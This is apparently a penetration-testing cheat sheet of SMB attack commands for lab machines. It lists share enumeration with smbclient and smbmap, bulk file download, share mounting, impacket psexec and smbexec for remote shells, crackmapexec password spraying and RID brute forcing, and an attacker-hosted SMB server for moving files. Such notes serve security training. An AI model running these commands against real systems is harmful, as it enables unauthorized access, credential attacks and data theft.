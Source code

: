 ```yaml
---
tags:
  - SMB
  - impacket
  - smbclient
  - PY-psexec
  - PY-smbclient
  - PY-smbexec
  - p445
  - p139
  - cme-smb
  - smbmap
---
```



## SMBClient
- list available shares with -L
		- `smbclient -L 10.129.220.145 -U administrator`
- Connect to a share
		- `smbclient \\\\10.129.220.145\\ADMIN$ -U Administrator`

## SMBMap
- list available shares
	- `smbmap -H 10.129.68.211 -u guest`
	- `smbmap -H 10.129.68.211 -u administrator -p password123`
- recursively list dirs and files (-R)
	- `smbmap -u Tempuser -p welcome2019 -H 10.129.68.211 -R Data`
	- `smbmap -u Tempuser -p welcome2019 -H 10.129.68.211 -R Secure$\\IT`
- Download all files matching a regex pattern (-A)
	- `smbmap -u Tempuser -p welcome2019 -H 10.129.68.211 -R Data -A xml`


## Mount a file share locally
- `sudo mount -t cifs "//10.129.68.211/Secure$/IT/Carl" /mnt/Data -o username=TempUser,password=welcome2019`
- remember that the `/mnt/Data` (or whatever) must exist
- you can also do this with anonymous auth (guest)
	- `sudo mount -t cifs "//10.129.68.211/Users" /mnt/Data2 -o username=guest,password=`
## impacket psexec.py
- `python psexec.py username:password@hostIP
- useful for if you enumerate open administrative shares or have access to these shares using creds


## impacket smbexec.py
- `python smbexec.py Administrator@10.129.220.145
- useful for if you enumerate open administrative shares or have access to these shares using creds


## crackmapexec
- `cme smb 10.129.96.157 -u users.txt -p passwords.txt`
- `cme smb 10.129.96.157 -u hazard -p stealth1agent --rid-brute` to brute force RID's and enumerate local user account names


## smbserver.py
- host an smb server off your attacking endpoint 
	- `smbserver.py -smb2support -username guest -password guest share /root/Desktop`
	- mount this on your target (if windows) `net use x: \\10.10.14.177\share /user:guest guest`
